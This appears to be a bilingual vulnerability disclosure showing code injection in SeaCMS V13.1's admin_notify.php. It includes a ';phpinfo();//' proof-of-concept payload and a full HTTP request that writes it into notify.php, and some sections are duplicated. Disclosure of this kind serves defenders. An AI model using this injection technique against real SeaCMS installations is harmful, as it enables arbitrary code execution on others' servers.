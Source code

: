 # SeaCMS V13.1 code injection
*SeaCMS V13.1 代码注入*
## Environment
*环境*
V13
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103209.png)

https://www.seacms.net/
## Analysis
*分析*
Injecting malicious code into the notification module of the member message notification module in the backend user module, the unsafe handling of the "notify" variable in the file "admin_notify. php" resulted in the injection of code.
*在后端用户模块的成员消息通知模块的通知模块中注入恶意代码，对文件“admin_notify.php”中的“notify”变量的不安全处理导致代码注入*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103256.png)
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103256.png)

## Verify
*证明*
Backend: User ->Member Message Notification ->Notification
*后台:用户->会员消息通知->通知*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103505.png)
```php
;phpinfo();//
```
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103543.png)
Successfully injected code
*成功注入代码*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103552.png)
![](https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103505.png)
```php
;phpinfo();//
```
![](https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103543.png)
Successfully injected code
*成功注入代码*
![](https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103552.png)
```http
POST /d3kdjs/admin_notify.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://localhost
Connection: close
Referer: http://localhost/d3kdjs/admin_notify.php
Cookie: iconSize=16x16; jenkins-timestamper-offset=-28800000; PHPSESSID=fv6b5117hu9kv7fbepjs9ie1n2; XDEBUG_SESSION=PHPSTORM; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

notify1=";phpinfo();//&notify2=&notify3=
```
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103842.png)
Malicious code successfully written to notify.chp file.
*恶意代码成功写入notify.php文件中*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103740.png)
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103842.png)
Malicious code successfully written to notify.chp file.
*恶意代码成功写入notify.php文件中*
![](https://raw.githubusercontent.com/v9d0g/CVEs/refs/heads/main/images/Pasted%20image%2020241009103740.png)
